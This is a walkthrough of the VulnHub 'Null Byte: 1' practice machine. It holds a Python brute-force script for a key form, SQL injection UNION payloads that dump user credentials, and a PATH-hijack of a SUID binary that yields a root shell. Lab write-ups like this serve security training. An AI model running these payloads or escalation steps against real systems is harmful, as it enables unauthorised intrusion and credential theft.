







# Information

- Name: Null Byte: 1
- Date release: 1 Aug 2015
- Author: lyon
- Series: NullByte
- Platform: VulnHub
- Link: https://www.vulnhub.com/entry/nullbyte-1,126/
- Difficulty: Basic to intermediate

# Write Up
## Enumeration
### Host Discovery
Host Discovery is performed with [arpScan](https://github.com/aalmeidar/Tools). In this lab, the machine's ip is _10.0.2.13_.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:c4:da:11 10.0.2.3
[*] 08:00:27:ad:a4:73 10.0.2.13
```
### Port Scanning
Port Scanning is realized using [portScan](https://github.com/aalmeidar/Tools) and _nmap_. First, with _portScan_ lets the open ports:
```Console
# python portScanner.py -i 10.0.2.13  
[*] Port 111 (sunrpc) open
[*] Port 80 (http) open
[*] Port 777 (moira-update) open
[*] Port 37397 (unknown) open
```

Lets scan with _nmap_ to get the versions running:
```Console
# nmap -sV -p80,111,777,37397 10.0.2.13  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 13:36 EDT
Nmap scan report for 10.0.2.13 (10.0.2.13)
Host is up (0.00068s latency).

PORT      STATE  SERVICE VERSION
80/tcp    open   http    Apache httpd 2.4.10 ((Debian))
111/tcp   open   rpcbind 2-4 (RPC #100000)
777/tcp   open   ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
37397/tcp open   status  1 (RPC #100024)
MAC Address: 08:00:27:AD:A4:73 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.02 seconds

```

### Web 
In the _index.html_ there are a gif and a quote:



Lets do fuzzing with _gobuster_ to discover hidden directories and files:

```Console
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.13 -x .php,.html,.txt -t 40  -o fuzzing 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.13
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2022/09/02 13:43:09 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 308] [--> http://10.0.2.13/uploads/]
/index.html           (Status: 200) [Size: 196]                                
/javascript           (Status: 301) [Size: 311] [--> http://10.0.2.13/javascript/]
/phpmyadmin           (Status: 301) [Size: 311] [--> http://10.0.2.13/phpmyadmin/]
/server-status        (Status: 403) [Size: 297] 
```
But nothing interesting, maybe uploads but not accesible. Lets check the gif metadata:
```Console
exiftool main.gif 
ExifTool Version Number         : 12.44
File Name                       : main.gif
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2015:08:01 12:39:30-04:00
File Access Date/Time           : 2022:09:02 08:19:50-04:00
File Inode Change Date/Time     : 2022:09:02 08:19:32-04:00
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```

There is a comment on the gif metadata. After several attempts, I check that it is a directory (/kzMb5nVYJw/) with a key panel.


### Exploitation
Lets try bruteforce with a tool written in python:

```Python
#!/usr/bin/python3

from pwn import *
import requests, signal, sys

def def_handler(sig, frame):
        print("[!] Aborting...")
        sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "http://10.0.2.13/kzMb5nVYJw/index.php"

def makeRequest():
    
    f = open("password.txt", "r",  encoding = "ISO-8859-1")
    
    p1 = log.progress("Brute Force")

    s = requests.session()


    for password in f.readlines():
        password = password.strip()
        
        p1.status(f"Trying password: {password}")
        
        post_data = {
            'key':password,
                }
        r = s.post(url, data=post_data)
        if "invalid key" not in r.text:
            p1.success(f"The password is: {password}")
            sys.exit(0)


if __name__ == "__main__":
    makeRequest()

```

```Console
# python bruteForce.py                                  
[+] Brute Force: The password is: elite
```

With the correct key, the web let you search usernames. First and foremost, let's try _SQLi_. With _"_ the input is vulnerable to SQLi.



First, i am going to check the number of columns:

```sql
" union select null,null,null-- -
```
The following is list the tables names:

```sql
" union select table_name,null,null from information_schema.tables where table_schema=database()-- -
```


Also with columns:
```sql
" union select column_name,null,null from information_schema.columns where table_name = 'users'-- -
```


Lets dump the table users:
```sql
" union select user,pass,id from users-- -
```



The ramses password is a md5 hash coded in base64:
```Console
# echo -n YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | base64 --decode
c6d6bd7ebf806f43c76acc3681703b81
```


The credentials ramses:omega is successful for ssh (port 777).

```Console
# ssh -p 777 ramses@10.0.2.13
ramses@10.0.2.13's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep  3 00:06:26 2022 from 10.0.2.15
-bash-4.3$ whoami
ramses
-bash-4.3$ id
uid=1002(ramses) gid=1002(ramses) groups=1002(ramses)
-bash-4.3$
```
## Privilege Escalation

The machine has a weird file with suid perm named _procwatch_ that execute a simple ps:
```Console
-bash-4.3$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/pt_chown
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/procmail
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/sbin/exim4
/var/www/backup/procwatch
/bin/su
/bin/mount
/bin/umount
/sbin/mount.nfs
```

Lets try to do a path hijacking and assign suid to bash. So, lets create a ps in /home/ramses:
```Console
-bash-4.3$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/games
-bash-4.3$ export PATH=/home/ramses:$PATH
-bash-4.3$ echo $PATH
/home/ramses:/usr/local/bin:/usr/bin:/bin:/usr/games
-bash-4.3$ touch /home/ramses/ps
-bash-4.3$ echo "chmod u+s /bin/bash" > /home/ramses/ps
-bash-4.3$ cat /home/ramses/ps
chmod u+s /bin/bash
-bash-4.3$ cd /var/www/
backup/ html/
-bash-4.3$ cd /var/www/backup/
-bash-4.3$ ./procwatch
-bash-4.3$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1105840 Nov 13  2014 /bin/bash
-bash-4.3$ bash -p
bash-4.3# whoami
root
bash-4.3# id
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
bash-4.3# cat /root/proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats.
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----
```
